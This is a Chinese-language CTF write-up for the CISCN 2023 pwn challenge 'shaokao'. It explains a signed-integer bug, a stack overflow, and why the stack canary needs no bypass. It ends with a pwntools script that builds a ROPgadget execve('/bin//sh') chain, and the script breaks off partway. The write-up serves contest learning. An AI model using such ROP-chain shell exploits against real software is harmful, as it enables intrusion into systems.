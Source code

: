 ```yaml
---
title: CISCN2023的PWN
description: 第一次打国赛！
pubDatetime: 2023-06-03
published: true
ogImage: ../../assets/7.png
language: cn
tags:
  - 网络安全
---
```

## 烧烤摊儿（整数溢出+syscall）
#### 漏洞一：有符合的整数
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685154391132-abb0ff9a-bd20-43c6-896a-0a7c2d694b71.png#averageHue=%23040302&clientId=u9dccbb64-7a49-4&from=paste&height=505&id=u2af6f391&originHeight=834&originWidth=1380&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=110936&status=done&style=none&taskId=u7c136378-6e1c-4b2c-872b-cc62c6056a8&title=&width=836.3635880231228)
#### 漏洞二：复制时候的栈溢出
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685154449944-58e7c324-5d0a-473b-bd52-c7575c453487.png#averageHue=%23040302&clientId=u9dccbb64-7a49-4&from=paste&height=252&id=ub24519a8&originHeight=415&originWidth=1266&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=45002&status=done&style=none&taskId=ubd71bfc8-c968-46f8-8ddc-424f024b43d&title=&width=767.2726829255605)
#### 疑惑：为什么canary保护不用绕过
> 虽然开了canary，但是可以看到gaiming函数并不会检测rbp-0x8处的值是否被破坏

为了明白这个点，我看了一下要爆破canary的题目
> 下面是需要爆破canary的

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685370766755-02f110cb-78ea-4cf5-9b74-a238484a0147.png#averageHue=%23828180&clientId=u9413e72c-93d8-4&from=paste&height=558&id=u5e5e351c&originHeight=921&originWidth=1015&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=138156&status=done&style=none&taskId=u5d6b8d7b-d929-4b3e-8b85-64ab14efa0d&title=&width=615.1514795967172)
> 下面是本题的，不用绕过

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685370814842-c659d21a-31ea-4140-b2dc-ba66afa7fc3f.png#averageHue=%23020101&clientId=u9413e72c-93d8-4&from=paste&height=541&id=u5860132f&originHeight=893&originWidth=1056&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=65028&status=done&style=none&taskId=uc9755ff3-3f0c-4b4d-8e84-58e260cb6de&title=&width=639.9999630089984)<br />**所以，在有栈溢出的情况，是否需要爆款绕过canary，请查看汇编代码，看具体的执行流程。**
#### ROPgadget的收集解法
因为题目的符号很多的没有，所以最好的方法，就是使用syscall<br />又因为题目没有什么限制，所以直接使用ropchain生成即可

- 发送很大的负数刷新金币
- 栈溢出出rop链接
> 比赛出现的问题：对于syscall一些执行函数的参数不够熟悉，后面去整理这方面的内容，方便写题更高效的去构造

```python
from pwn import *
from struct import pack

context.log_level = 'debug'
io = process("./shaokao")

# execve generated by ROPgadget
# Padding goes here
p = b''
p += pack('<Q', 0x000000000040a67e) # pop rsi ; ret
p += pack('<Q', 0x00000000004e60e0) # @ .data
p += pack('<Q', 0x0000000000458827) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000045af95) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040a67e) # pop rsi ; ret
p += pack('<Q', 0x00000000004e60e8) # @ .data + 8
p += pack('<Q', 0x0000000000447339) # xor rax, rax ; ret
p += pack('<Q', 0x000000000045af95) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040264f) # pop rdi ; ret
p += pack('<Q', 0x00000000004e60e0) # @ .data
p += pack('<Q', 0x000000000040a67e) # pop rsi ; ret
p += pack('<Q', 0x00000000004e60e8) # @ .data + 8
p += pack('<Q', 0x00000000004a404b) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004e60e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding

```